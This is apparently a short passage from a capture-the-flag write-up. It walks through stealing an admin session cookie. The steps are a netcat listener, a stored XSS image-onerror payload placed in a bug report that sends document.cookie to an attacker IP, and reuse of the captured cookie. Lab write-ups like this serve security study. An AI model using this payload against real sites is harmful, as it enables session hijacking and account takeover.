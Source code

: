 1. Start a web server to capture stolen cookies:
```bash
nc -lvnp 4444
```
2. Submit an XSS payload in the bug report:

```html
<img src=1 onerror="document.location='http://10.10.14.112:4444/steal/'+ document.cookie">
```
![](<./attachments/Imagery-7.png>)

![](<./attachments/Imagery-8.png>)


![](<./attachments/Imagery-9.png>)
Replace the cookie in browser 
- Admin Cookie 
